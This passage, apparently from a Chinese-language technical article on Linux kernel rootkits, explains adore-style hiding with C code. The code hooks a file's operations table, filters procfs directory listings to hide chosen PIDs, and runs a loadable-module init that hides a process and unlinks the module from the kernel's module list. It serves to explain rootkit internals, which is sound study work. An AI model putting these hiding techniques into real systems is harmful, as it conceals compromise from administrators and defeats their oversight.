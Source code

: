 ```CPP
#endif

    // 将filep对象的f_op改为adore的实现
	filep->f_op = new_op;
	filp_close(filep, 0);
	return 0;
}
```

其中上面代码中的`new_readdir`、`new_iterate`对应于下面的实现：

-   `adore_proc_readdir`：针对procfs的`readdir`实现，代码如下
-   `adore_root_readdir`
-   `adore_proc_iterate`
-   `adore_root_iterate`

```CPP
int adore_proc_readdir(struct file *fp, void *buf, filldir_t filldir)
{
	int r = 0;

	spin_lock(&proc_filldir_lock);
    //proc_filldir是一个全局变量
	proc_filldir = filldir;
    // orig_proc_readdir也是全局变量，保存了原始vfs的readdir实现（*orig_readdir = filep->f_op->readdir;）
	r = orig_proc_readdir(fp, buf, adore_proc_filldir/*funcptr*/);
	spin_unlock(&proc_filldir_lock);
	return r;
}

int adore_proc_filldir(void *buf, const char *name, int nlen, loff_t off, u64 ino, unsigned x)
{
	char abuf[128];

	memset(abuf, 0, sizeof(abuf));
	memcpy(abuf, name, nlen < sizeof(abuf) ? nlen : sizeof(abuf) - 1);

	if (should_be_hidden(adore_atoi(abuf)))
		return 0;

	if (proc_filldir)
		return proc_filldir(buf, name, nlen, off, ino, x);
	return 0;
}
```


####    内核模块加载
大部分内核rootkit都是以可加载内核模块（LKM）形式运行，注册恶意逻辑，如下面的代码，其工作原理是通过LKM加载rootkit，隐藏自身模块，调用`hide_process`隐藏进程

```CPP
static int __init rootkit_init(void) {
    printk(KERN_INFO "rootkit mount\n");
    hide_process(1234); // 隐藏PID 1234
    list_del(&THIS_MODULE->list); // 隐藏模块
    return 0;
}

static void __exit rootkit_exit(void) {
    printk(KERN_INFO "rootkit unmount\n");
}

module_init(rootkit_init);
module_exit(rootkit_exit);
MODULE_LICENSE("GPL");
```